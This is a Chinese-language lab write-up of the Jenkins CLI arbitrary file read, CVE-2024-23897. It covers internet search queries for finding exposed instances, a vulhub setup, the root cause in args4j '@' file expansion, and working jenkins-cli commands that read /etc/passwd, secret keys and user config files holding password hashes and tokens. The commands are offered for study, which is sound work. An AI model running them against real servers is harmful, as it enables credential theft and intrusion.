

# CVE-2024-23897

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Jenkins 通过 CLI 任意文件读取漏洞


## 0x00 空间搜索引擎相关查询语法

```
【FOFA】
icon_hash="1265477436"

【鹰图】
web.icon=="f49c4a4bde1eec6c0b80c2277c76e3db"

【Quake】
favicon: "f49c4a4bde1eec6c0b80c2277c76e3db"

【零零信安】
icon=f49c4a4bde1eec6c0b80c2277c76e3db
```

## 0x01 环境搭建

执行以下命令启动 Jenkins 服务器 2.441：

```jsx
git clone https://github.com/vulhub/vulhub
cd vulhub/jenkins/CVE-2024-23897
docker compose up -d
```

`http://your-ip:8080/` 服务器启动后即可通过访问Jenkins服务器。默认管理员的用户名和密码是`admin`和`vulhub`。

## 0x02 漏洞原理

Jenkins提供了一个命令行的接口，用户可以下载一个命令行客户端jenkins-cli.jar到本地，并调用该客户端来执行一些Jenkins的功能。本来是一个很常见的功能，但设计中神奇的是，用户使用jenkins-cli.jar时，命令行是传到服务端解析的，而不是在jenkins-cli.jar里解析。

这就导致了一个问题，因为Jenkins服务端解析命令行时使用了一个第三方库[args4j](https://github.com/kohsuke/args4j)，这个库实现了Linux中一个常见的功能——如果一个参数是以`@`开头，则会被自动认为是一个文件名，文件内容会被读取作为参数。

因为Jenkins是在服务端解析的命令行参数，又支持args4j的这个特性，所以造成文件读取漏洞。

要调试该漏洞，只需在Jenkins启动时设置一个环境变量“DEBUG=1”，即可开启JVM的远程调试端口。如果使用Vulhub环境，直接连接5005端口进行远程调试。

**`注意：`**如果该“允许匿名读取访问”配置已打开，则可以读取目标文件的完整内容，否则只能读取一行。

## 0x03 影响范围

```text
< 2.441
```

## 0x04 Jenkins权限系统

正常情况下，cli这个功能的权限控制方案和Jenkins默认权限方案相同。

jenkins的四种鉴权方式：

- Anyone can do anything 没有任何权限认证，匿名用户即可登录后台执行Groovy脚本
- Legacy Mode 旧鉴权模式
- Logged-in users can do anything 任意登录的用户可以做任何事，这是默认的权限选项
- Matrix-based security 细颗粒度权限控制，需要安装插件才支持这个鉴权模式



`PS：`经过测试，如果jenkins系统，关闭了匿名用户可读功能，那么大部分cli命令将无法使用，会出现"ERROR: anonymous is missing the Overall/Read permission"的错误。

## 0x04 可用的jenkins命令

**【查看单行文件内容】**

在未开启匿名访问的情况下可用命令

```python
disable-job
enable-job
help
keep-build
restart
safe-shutdown
shutdown
who-am-i
```

**【查看完整文件内容】**

**在开启匿名访问后的情况下可用命令**

```
connect-node
delete-job
delete-node
disconnect-node
offline-node
online-node
reload-job
disable-plugin  # 命令需要开启【任何人都可以做任何事】，才能使用
```


## 0x05 漏洞利用

### 下载Jenkins-cli工具

下载地址：http://localhost:8080/jnlpJars/jenkins-cli.jar

### 要读取的文件

- `/var/jenkins_home/users/*/config.xml` 保存所有用户的信息，包括密码、种子、Token等
- `/var/jenkins_home/secret.key` 保存Remember-Me Cookie中的一部分
- `/var/jenkins_home/secrets/master.key` 作为AES解密密钥
- `/var/jenkins_home/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac` 作为计算hmac签名时的Key

### 正式利用

**读取passwd文件内容**

```java
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/etc/passwd"
```


**获取Jenkins根目录**

```python
# 包含的是当前进程的环境变量
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"
```


```python
# 包含的是当前进程的cmd启动命令行
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/cmdline"
```


**读取secrets.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"
```


**读取master.key文件**

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"
```


**读取users.xml文件**

获取用户列表和每个用户信息所在的文件目录

```python
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_hom
e/users/users.xml"
```


**读取config.xml文件**

config.xml文件是在admin用户所在目录下的

```
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/var/jenkins_home/users/admin_6181681220423834154/config.xml"
```


正常情况下，我们应该能拿到三个信息

- 用户密码，使用JBCript哈希编码
- 用户Token，使用sha256哈希编码
- 用户种子，这个值在Remember-Me Cookie中会用到


## 0x06 漏洞分析


继续向下走，到了解析命令行参数位置


if这里的判断代码和修复代码部分有点关联，修复部分的代码应该就是为了防止进入这个逻辑的。getAtSyntax默认是true的，因此我们进入跟入if逻辑中

```java
this.parserProperties.getAtSyntax()
```


发现取了@后面的字符串作为文件名读取后作为result返回


输入如下命令

```java
java -jar jenkins-cli.jar -s [http://localhost:8081/](http://localhost:8081/) -http who-am-i "@/etc/passwd"
```

再次进行调试,发现会把`/etc/passwd`内容读取出来


再接着向下看，读取出来的内容作为异常抛了出来，从而达到了任意文件读取


